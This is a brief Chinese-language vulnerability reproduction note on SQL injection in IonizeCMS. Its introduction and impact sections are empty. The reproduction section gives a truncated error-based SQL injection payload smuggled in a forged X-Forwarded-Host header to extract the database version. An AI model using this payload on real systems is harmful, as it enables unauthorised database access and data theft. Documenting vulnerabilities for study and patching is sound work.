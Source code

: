 ## IonizeCMS sql注入

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

伪造HTTP头注入 在抓包哇：


```
X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informat
```